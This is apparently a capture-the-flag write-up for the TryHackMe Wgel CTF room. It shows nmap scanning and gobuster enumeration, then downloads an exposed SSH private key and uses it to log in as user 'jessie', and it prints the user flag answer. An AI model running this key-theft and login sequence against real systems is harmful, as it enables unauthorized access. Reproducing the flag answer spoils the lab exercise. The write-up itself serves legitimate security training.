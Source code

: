 # Wgel CTF
Can you exfiltrate the root flag?

Link: https://tryhackme.com/room/wgelctf

## Scanning

Scan ports using nmap

```bash
nmap -A -T4 10.10.200.215
```

![image](https://user-images.githubusercontent.com/90561566/181027998-0357866b-5df3-48c6-b163-f1d431bc4704.png)

We found 2 open ports 22 (ssh) and 80 (http)

## HTTP

We access the web service by http on port 80

![image](https://user-images.githubusercontent.com/90561566/181027874-748cd312-aa24-459a-a4ac-7b51ef44c820.png)

View source and we can see a announcement on line 278

![image](https://user-images.githubusercontent.com/90561566/181028450-ff1a8df0-6115-4ec3-966c-b453551713ab.png)

"jessie" is name of 1 user on the server

## Enumeration

We use gobuster to enummerate directory on web server

```bash
gobuster dir -u http://10.10.200.215/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/181032124-78c1f9f4-0bce-4f63-8231-4a7cad25489e.png)

We access to /sitemap/ directory, we find a corporate web

![image](https://user-images.githubusercontent.com/90561566/181033371-2cff1ae6-318d-42f7-9694-90e3d3555d0e.png)

We try gobuster against this page

```bash
gobuster dir -u http://10.10.200.215/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/181034287-2bee7a43-0d83-4d54-9882-df62de22ed14.png)

we found  ".ssh" directory with id_rsa file

![image](https://user-images.githubusercontent.com/90561566/181034614-c1843616-7ac9-44c8-83c6-1deff81801a6.png)

![image](https://user-images.githubusercontent.com/90561566/181034966-d8deb25d-3994-45d2-9126-4b9cefcc5a28.png)

## Exploitation

We can ssh with "jessie" user using id_rsa file

```
wget http://10.10.200.215/sitemap/.ssh/id_rsa
chmod 600 id_rsa
ssh jessie@10.10.200.215 -i id_rsa
```

![image](https://user-images.githubusercontent.com/90561566/181036890-4b5a6609-63bd-4434-a632-566ef3d5c00d.png)

```
find . -name *flag*
```

![image](https://user-images.githubusercontent.com/90561566/181037505-9a8e67b9-a5c0-4ee1-abe4-78ccd5500e4a.png)

| Flag | User flag |
| --- | --- |
| Answer | 057c67131c3d5e42dd5cd3075b198ff6 |


















